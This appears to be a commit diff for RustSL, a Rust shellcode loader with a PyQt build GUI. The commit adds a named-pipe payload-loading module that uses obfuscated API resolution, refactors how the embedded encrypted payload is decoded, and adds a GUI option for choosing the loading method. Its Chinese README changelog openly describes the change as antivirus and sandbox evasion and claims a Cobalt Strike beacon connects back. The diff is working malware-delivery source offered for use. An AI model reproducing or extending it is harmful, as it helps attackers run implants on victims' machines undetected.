

update

diff --git a/src/load_payload/pipe.rs b/src/load_payload/pipe.rs
@@ -1,0 +1,126 @@
+use std::ffi::{CString, c_void};
+use std::thread;
+use std::time::Duration;
+use rand::Rng;
+use std::ptr;
+use crate::utils::{load_library, get_proc_address};
+use rustcrypt_ct_macros::obf_lit_bytes;
+
+pub fn load_payload() -> Result<Vec<u8>, String> {
+    const ENCRYPT_DATA: &'static [u8] = include_bytes!("../encrypt.bin");
+    let encrypted_data = ENCRYPT_DATA.to_vec();
+
+    // Generate random pipe name
+    let random: u32 = rand::thread_rng().gen_range(10000..99999);
+    let pipe_name_str = format!("\\\\.\\pipe\\rsl_pipe_{}", random);
+    let pipe_name_c = CString::new(pipe_name_str.clone()).map_err(|e| e.to_string())?;
+
+    // Start server thread
+    let server_data = encrypted_data.clone();
+    let server_pipe_name = pipe_name_c.clone();
+    
+    thread::spawn(move || {
+        unsafe {
+            if let Ok(kernel32) = load_library(obf_lit_bytes!(b"kernel32.dll\0").as_slice()) {
+                // Define function types
+                type CreateNamedPipeAFn = unsafe extern "system" fn(*const u8, u32, u32, u32, u32, u32, u32, *const c_void) -> isize;
+                type ConnectNamedPipeFn = unsafe extern "system" fn(isize, *mut c_void) -> i32;
+                type WriteFileFn = unsafe extern "system" fn(isize, *const u8, u32, *mut u32, *mut c_void) -> i32;
+                type DisconnectNamedPipeFn = unsafe extern "system" fn(isize) -> i32;
+                type CloseHandleFn = unsafe extern "system" fn(isize) -> i32;
+                type GetLastErrorFn = unsafe extern "system" fn() -> u32;
+
+                // Load functions
+                let create_named_pipe_a: CreateNamedPipeAFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"CreateNamedPipeA\0").as_slice()).unwrap_or(ptr::null()));
+                let connect_named_pipe: ConnectNamedPipeFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"ConnectNamedPipe\0").as_slice()).unwrap_or(ptr::null()));
+                let write_file: WriteFileFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"WriteFile\0").as_slice()).unwrap_or(ptr::null()));
+                let disconnect_named_pipe: DisconnectNamedPipeFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"DisconnectNamedPipe\0").as_slice()).unwrap_or(ptr::null()));
+                let close_handle: CloseHandleFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"CloseHandle\0").as_slice()).unwrap_or(ptr::null()));
+                let get_last_error: GetLastErrorFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"GetLastError\0").as_slice()).unwrap_or(ptr::null()));
+
+                if create_named_pipe_a as usize != 0 {
+                    let h_pipe = create_named_pipe_a(
+                        server_pipe_name.as_ptr() as *const u8,
+                        0x00000002, // PIPE_ACCESS_OUTBOUND
+                        0x00000000 | 0x00000000 | 0x00000000, // PIPE_TYPE_BYTE | PIPE_READMODE_BYTE | PIPE_WAIT (defaults are 0)
+                        1, // Max instances
+                        server_data.len() as u32 + 4096, // Out buffer
+                        server_data.len() as u32 + 4096, // In buffer
+                        0, // Default timeout
+                        ptr::null()
+                    );
+
+                    if h_pipe != -1 { // INVALID_HANDLE_VALUE
+                        let connected = connect_named_pipe(h_pipe, ptr::null_mut());
+                        if connected != 0 || get_last_error() == 535 { // ERROR_PIPE_CONNECTED
+                            let mut bytes_written = 0;
+                            write_file(
+                                h_pipe,
+                                server_data.as_ptr(),
+                                server_data.len() as u32,
+                                &mut bytes_written,
+                                ptr::null_mut()
+                            );
+                            thread::sleep(Duration::from_millis(100));
+                        }
+                        disconnect_named_pipe(h_pipe);
+                        close_handle(h_pipe);
+                    }
+                }
+            }
+        }
+    });
+
+    // Client side
+    thread::sleep(Duration::from_millis(50));
+
+    let mut attempts = 0;
+    const MAX_ATTEMPTS: u32 = 20;
+    
+    unsafe {
+        let kernel32 = load_library(obf_lit_bytes!(b"kernel32.dll\0").as_slice())?;
+        type CreateFileAFn = unsafe extern "system" fn(*const u8, u32, u32, *const c_void, u32, u32, isize) -> isize;
+        type ReadFileFn = unsafe extern "system" fn(isize, *mut u8, u32, *mut u32, *mut c_void) -> i32;
+        type CloseHandleFn = unsafe extern "system" fn(isize) -> i32;
+
+        let create_file_a: CreateFileAFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"CreateFileA\0").as_slice()).map_err(|_| "Failed to load CreateFileA")?);
+        let read_file: ReadFileFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"ReadFile\0").as_slice()).map_err(|_| "Failed to load ReadFile")?);
+        let close_handle: CloseHandleFn = std::mem::transmute(get_proc_address(kernel32, obf_lit_bytes!(b"CloseHandle\0").as_slice()).map_err(|_| "Failed to load CloseHandle")?);
+
+        while attempts < MAX_ATTEMPTS {
+             let h_file = create_file_a(
+                pipe_name_c.as_ptr() as *const u8,
+                0x80000000, // GENERIC_READ
+                0, // No sharing
+                ptr::null(),
+                3, // OPEN_EXISTING
+                0x00000080, // FILE_ATTRIBUTE_NORMAL
+                0
+            );
+            
+            if h_file != -1 { // INVALID_HANDLE_VALUE
+                let mut buffer = vec![0u8; encrypted_data.len()];
+                let mut bytes_read = 0;
+                
+                let success = read_file(
+                    h_file,
+                    buffer.as_mut_ptr(),
+                    buffer.len() as u32,
+                    &mut bytes_read,
+                    ptr::null_mut()
+                );
+                
+                close_handle(h_file);
+                
+                if success != 0 && bytes_read as usize == encrypted_data.len() {
+                    return Ok(buffer);
+                }
+            }
+            
+            thread::sleep(Duration::from_millis(100));
+            attempts += 1;
+        }
+    }
+
+    Err("Failed to read from named pipe".to_string())
+}

diff --git a/src/main.rs b/src/main.rs
@@ -2,10 +2,12 @@
 mod forgery;
 mod guard;
 mod utils;
+mod load_payload;
 use utils::obfuscation_noise;
 mod exec;
 mod decrypt;
 mod alloc_mem;
+use load_payload::load_payload;
 
 #[cfg(any(feature = "pattern2", feature = "pattern3"))]
 mod target;
@@ -15,33 +17,31 @@ use decrypt::decrypt;
 use exec::exec;
 use std::process;
 
-const ENCRYPT_DATA: &'static [u8] = include_bytes!("encrypt.bin");
-
 #[cfg(feature = "base32_decode")]
 #[allow(dead_code)]
-fn base32_decode_payload() -> Option<Vec<u8>> {
-    let raw = std::str::from_utf8(ENCRYPT_DATA).ok()?;
+fn base32_decode_payload(data: &[u8]) -> Option<Vec<u8>> {
+    let raw = std::str::from_utf8(data).ok()?;
     base32::decode(base32::Alphabet::Rfc4648 { padding: true }, raw)
 }
 
 #[cfg(feature = "base64_decode")]
 #[allow(dead_code)]
-fn base64_decode_payload() -> Option<Vec<u8>> {
+fn base64_decode_payload(data: &[u8]) -> Option<Vec<u8>> {
     use base64::Engine;
-    base64::engine::general_purpose::STANDARD.decode(ENCRYPT_DATA).ok()
+    base64::engine::general_purpose::STANDARD.decode(data).ok()
 }
 
 #[cfg(feature = "urlsafe_base64_decode")]
 #[allow(dead_code)]
-fn urlsafe_base64_decode_payload() -> Option<Vec<u8>> {
+fn urlsafe_base64_decode_payload(data: &[u8]) -> Option<Vec<u8>> {
     use base64::Engine;
-    base64::engine::general_purpose::URL_SAFE.decode(ENCRYPT_DATA).ok()
+    base64::engine::general_purpose::URL_SAFE.decode(data).ok()
 }
 
 #[cfg(feature = "hex_decode")]
 #[allow(dead_code)]
-fn hex_decode_payload() -> Option<Vec<u8>> {
-    let raw = std::str::from_utf8(ENCRYPT_DATA).ok()?;
+fn hex_decode_payload(data: &[u8]) -> Option<Vec<u8>> {
+    let raw = std::str::from_utf8(data).ok()?;
     hex::decode(raw.trim()).ok()
 }
 
@@ -55,20 +55,28 @@ fn main() {
     forgery::bundle::bundlefile();
 
 
+    let encrypted_data = match load_payload() {
+        Ok(data) => data,
+        Err(e) => {
+            println!("{} {}", obf_lit!("Failed to load payload:"), e);
+            process::exit(1);
+        }
+    };
+
     #[cfg(feature = "base64_decode")]
-    let decrypted_data = base64_decode_payload().unwrap();
+    let decrypted_data = base64_decode_payload(&encrypted_data).unwrap();
 
     #[cfg(feature = "urlsafe_base64_decode")]
-    let decrypted_data = urlsafe_base64_decode_payload().unwrap();
+    let decrypted_data = urlsafe_base64_decode_payload(&encrypted_data).unwrap();
 
     #[cfg(feature = "base32_decode")]
-    let decrypted_data = base32_decode_payload().unwrap();
+    let decrypted_data = base32_decode_payload(&encrypted_data).unwrap();
 
     #[cfg(feature = "hex_decode")]
-    let decrypted_data = hex_decode_payload().unwrap();
+    let decrypted_data = hex_decode_payload(&encrypted_data).unwrap();
 
     #[cfg(feature = "none_decode")]
-    let decrypted_data = ENCRYPT_DATA.to_vec();
+    let decrypted_data = encrypted_data.to_vec();
 
     obfuscation_noise();
 

diff --git a/gui/main_window.py b/gui/main_window.py
@@ -17,7 +17,8 @@ from .ui_components import (
     create_mem_mode_combobox,
     create_vm_checks_grid,
     create_run_mode_combobox,
-    create_target_combobox
+    create_target_combobox,
+    create_load_payload_combobox
 )
 class LoaderGUI(QWidget):
     
@@ -46,6 +47,8 @@ class LoaderGUI(QWidget):
         
         layout.addWidget(self._create_mem_mode_group())
         
+        layout.addWidget(self._create_load_payload_group())
+
         layout.addWidget(self._create_vm_checks_group())
         
         layout.addWidget(self._create_run_mode_group())
@@ -108,6 +111,14 @@ class LoaderGUI(QWidget):
         ico_group.setLayout(ico_layout)
         return ico_group
     
+    def _create_load_payload_group(self):
+        load_group = QGroupBox('Payload 加载方式')
+        load_layout = QHBoxLayout()
+        self.load_payload_box = create_load_payload_combobox()
+        load_layout.addWidget(self.load_payload_box)
+        load_group.setLayout(load_layout)
+        return load_group
+
     def _create_mem_mode_group(self):
         mem_group = QGroupBox('内存分配方式')
         mem_layout = QHBoxLayout()
@@ -252,6 +263,10 @@ class LoaderGUI(QWidget):
         if not mem_mode:
             mem_mode = get_default_value('alloc_mem_mode') or 'alloc_mem_va'
         
+        load_payload_mode = self.load_payload_box.itemData(self.load_payload_box.currentIndex())
+        if not load_payload_mode:
+            load_payload_mode = get_default_value('load_payload_mode') or 'read_from_self'
+
         target = self.target_box.itemData(self.target_box.currentIndex())
         if not target:
             target = self.target_box.currentText()
@@ -271,6 +286,7 @@ class LoaderGUI(QWidget):
             'sign_app': sign_app,
             'forgery_enable': forgery_enable,
             'mem_mode': mem_mode,
+            'load_payload_mode': load_payload_mode,
             'target': target,
             'target_program': target_program,
             'target_pid': target_pid,

diff --git a/gui/config_manager.py b/gui/config_manager.py
@@ -11,6 +11,7 @@ def load_plugins_manifest():
     runm = data.get('run_modes') or []
     vmc = data.get('vm_checks') or []
     alloc_mem_modes = data.get('alloc_mem_modes') or []
+    load_payload_modes = data.get('load_payload_modes') or []
     encodings = data.get('encodings') or []
     defaults = data.get('defaults') or {}
     
@@ -22,6 +23,7 @@ def load_plugins_manifest():
         'run_modes': runm,
         'vm_checks': vmc,
         'alloc_mem_modes': alloc_mem_modes,
+        'load_payload_modes': load_payload_modes,
         'encodings': encodings,
         'defaults': defaults,
     }
@@ -60,6 +62,11 @@ def get_encodings():
 def get_encoding_feature_map():
     manifest = load_plugins_manifest()
     return {e['id']: e['feature'] for e in manifest.get('encodings', [])}
+
+
+def get_load_payload_feature_map():
+    manifest = load_plugins_manifest()
+    return {m['id']: m['feature'] for m in manifest.get('load_payload_modes', [])}
 
 
 def get_default_value(key):

diff --git a/gui/worker.py b/gui/worker.py
@@ -12,6 +12,7 @@ from .config_manager import (
     get_run_mode_map,
     get_alloc_mem_feature_map,
     get_encoding_feature_map,
+    get_load_payload_feature_map,
     get_default_value
 )
 
@@ -150,6 +151,12 @@ class WorkerThread(QThread):
         mem_mode = self.params.get('mem_mode', default_mem)
         mem_feature = mem_feature_map.get(mem_mode, 'alloc_mem_va')
         features.append(mem_feature)
+        
+        load_payload_map = get_load_payload_feature_map()
+        default_load = get_default_value('load_payload_mode') or 'read_from_self'
+        load_mode = self.params.get('load_payload_mode', default_load)
+        load_feature = load_payload_map.get(load_mode, 'load_payload_read_from_self')
+        features.append(load_feature)
         
         if self.params.get('forgery_enable'):
             features.append('with_forgery')

diff --git a/gui/ui_components.py b/gui/ui_components.py
@@ -56,6 +56,26 @@ def create_mem_mode_combobox():
     return combo
 
 
+def create_load_payload_combobox():
+    combo = QComboBox()
+    load_icon = get_icon('load')  # Assuming 'load.ico' exists or will fallback to empty
+    
+    manifest = load_plugins_manifest()
+    load_modes = manifest.get('load_payload_modes', [])
+    
+    for m in load_modes:
+        combo.addItem(load_icon, m.get('label', m['id']), m['id'])
+    
+    default_load = get_default_value('load_payload_mode')
+    if default_load:
+        for i in range(combo.count()):
+            if combo.itemData(i) == default_load:
+                combo.setCurrentIndex(i)
+                break
+    
+    return combo
+
+
 def create_vm_checks_grid():
     manifest = load_plugins_manifest()
     vm_items = manifest.get('vm_checks', [])

diff --git a/src/load_payload/mod.rs b/src/load_payload/mod.rs
@@ -1,0 +1,11 @@
+#[cfg(feature = "load_payload_read_from_self")]
+pub mod read_from_self;
+#[cfg(feature = "load_payload_pipe")]
+pub mod pipe;
+
+#[cfg(feature = "load_payload_read_from_self")]
+pub use read_from_self::load_payload;
+
+#[cfg(all(feature = "load_payload_pipe", not(feature = "load_payload_read_from_self")))]
+pub use pipe::load_payload;
+

diff --git a/src/load_payload/read_from_self.rs b/src/load_payload/read_from_self.rs
@@ -1,0 +1,4 @@
+pub fn load_payload() -> Result<Vec<u8>, String> {
+    const ENCRYPT_DATA: &'static [u8] = include_bytes!("../encrypt.bin");
+    Ok(ENCRYPT_DATA.to_vec())
+}

diff --git a/README.md b/README.md
@@ -80,6 +80,11 @@
 - **LineDDA 注入** - 利用 LineDDA 回调执行 Shellcode
 - 可拓展...
 
+### 📦 Payload加载方式(2025-12-10新增)
+- **Read From Self** - 从自身二进制文件读取payload
+- **Named Pipe** - 通过命名管道加载payload，可绕过某些沙箱检测
+- 可拓展...
+
 ## 📦 项目结构
 
 ```
@@ -428,3 +433,16 @@ set "RSL_ICON_PATH=icons\avp_0000.ico" && cargo build --release --no-default-fea
   - 添加 Fiber 注入执行方式
   - 添加 FLS Alloc 注入执行方式
   - 添加 LineDDA 注入执行方式
+
+### 2025-12-10
+
+通过学习artifact的源代码，学习了一些新的免杀技术，准备将其集成到RustSL中：
+
+- **重构Payload加载模块**：将payload加载逻辑重构为模块化架构，支持多种加载方式（Read From Self 和 Named Pipe）。
+- **新增Named Pipe加载方式**：实现基于命名管道的payload加载，以绕过某些沙箱检测。
+- **更新GUI支持**：在GUI中添加"Payload 加载方式"选项，支持用户选择不同的加载策略。
+
+经过测试，Pipe加载方式在多种杀软和沙箱环境下表现良好，显著提升了免杀效果。最新的微步沙箱检测如下：
+![alt text](static/12-10-1.png)
+上线CS：
+![alt text](static/12-10-2.png)
